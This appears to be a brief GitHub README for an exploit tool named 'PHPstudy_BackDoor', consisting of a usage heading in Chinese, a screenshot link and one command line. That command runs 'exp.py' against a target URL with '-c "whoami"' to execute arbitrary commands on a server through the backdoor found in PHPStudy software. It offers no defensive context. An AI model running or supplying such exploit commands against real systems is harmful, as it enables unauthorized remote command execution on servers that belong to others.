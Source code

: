 # PHPstudy_BackDoor

食用方法：

```
python3 exp.py -u http://192.168.128.139/ -c "whoami"
```

![image](https://user-images.githubusercontent.com/27001865/161095907-0b2dfd57-a8b8-45c1-b151-f4acd3db53d4.png)
